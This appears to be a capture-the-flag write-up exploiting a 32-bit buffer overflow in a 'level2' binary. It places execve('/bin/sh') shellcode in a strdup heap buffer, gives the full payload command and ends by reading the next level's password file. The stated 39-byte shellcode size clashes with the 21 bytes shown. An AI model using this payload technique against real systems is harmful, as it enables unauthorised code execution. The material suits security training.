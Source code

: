 # Shell code into the heap

### Look for seg fault

```bash
pattern create 
Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
pattern offset 0x61616175
[+] Found at offset 80 (little-endian search) likely
```

### Nx disable

Nx is disable so first idea was to create and exectue a shell code into the stack

[Shell code tuto and Explanation <-]()

First step consist finding the buffer address

```bash
gef➤  x/20wx $esp
0xffffd280:	0xffffd29c	0xffffffff	0x08048034	0xf7fc66d0
0xffffd290:	0xf7ffd608	0x00000020	0x00000000	0x41414141
0xffffd2a0:	0x41414141	0x41414141	0x41414141	0x41414141

```
buffer start a ```ffffd29c```

:warning: BUT !

```c
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

This cmp avoids us to point to the return address (0xbf000000 - 0xbfffffff range) and unfortunately, buffer his.

### No matter exec on the stack when we can exec on the heap

In gdb if you put a breakpoint after the strdup fucntion, eax store a pointer to the string allocated.

```c
b *p+105
r
allo
$eax            0x804a008	134520840
```

So if we jump to this address, and put shell code before, we can execute code.

### Payload

payload = shell code + nop instruction * (padding - shellcode.lenght) + address of buffer

```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80```

[shell code from](http://shell-storm.org/shellcode/files/shellcode-575.html)

syze of shell code : (39 bytes).

So final Buffer is : 

```bash
cat <(python2.7 -c "import sys; sys.stdout.write(b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' +  b'\x90' * 59 + b'\x08\xa0\x04\x08')") - | ./level2
cat /home/user/level3/.pass
```
